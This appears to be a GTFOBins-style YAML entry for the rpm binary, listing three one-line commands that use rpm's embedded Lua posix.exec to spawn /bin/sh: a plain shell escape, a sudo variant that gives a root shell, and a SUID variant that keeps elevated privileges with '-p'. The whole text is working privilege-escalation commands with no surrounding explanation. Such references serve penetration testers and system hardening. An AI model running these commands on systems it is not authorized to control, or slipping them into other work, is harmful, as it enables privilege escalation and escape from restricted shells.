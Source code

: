 ```yaml
---
functions:
  exec-interactive:
    - code: rpm --eval '%{lua:posix.exec("/bin/sh")}'
  sudo-enabled:
    - code: sudo rpm --eval '%{lua:posix.exec("/bin/sh")}'
  suid-enabled:
    - code: ./rpm --eval '%{lua:posix.exec("/bin/sh", "-p")}'
---
```

